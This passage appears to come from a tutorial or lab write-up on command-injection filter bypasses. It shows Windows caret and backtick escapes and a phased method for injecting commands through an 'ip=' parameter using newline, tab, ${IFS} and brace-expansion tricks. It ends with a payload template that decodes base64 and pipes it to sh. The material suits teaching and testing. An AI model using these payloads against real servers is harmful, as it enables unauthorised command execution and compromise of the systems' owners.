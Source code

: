 **Windows CMD:**
```cmd
# Caret escape character
ls^-la

# Variable expansion
set cmd=ls -la && %cmd%
```

**Windows PowerShell:**
```powershell
# Tick escape
ls`-la

# String expansion
"ls -la" | Invoke-Expression
```

---

## Systematic Testing Methodology

### Step-by-Step Approach

**Phase 1: Confirm Working Injection**
```http
# Verify injection operator works
ip=127.0.0.1%0a
# Result: ✅ Normal ping output
```

**Phase 2: Test Space Alternatives**
```http
# Test each bypass method
ip=127.0.0.1%0awhoami%09    # Tab
ip=127.0.0.1%0awhoami${IFS} # IFS
ip=127.0.0.1%0a{whoami}     # Brace expansion
```

**Phase 3: Execute Target Command**
```http
# Apply working bypass to target command
ip=127.0.0.1%0a{ls,-la}
```

**Phase 4: Parse Results**
```bash
# Extract required information from output
# Look for specific files and their sizes
```

### Payload Development Template

**Progressive Complexity:**
```bash
# Level 1: Basic injection
127.0.0.1%0acommand

# Level 2: Single argument
127.0.0.1%0acommand%09arg

# Level 3: Multiple arguments  
127.0.0.1%0a{command,arg1,arg2}

# Level 4: Complex operations
127.0.0.1%0aecho${IFS}payload|base64${IFS}-d|sh
```

---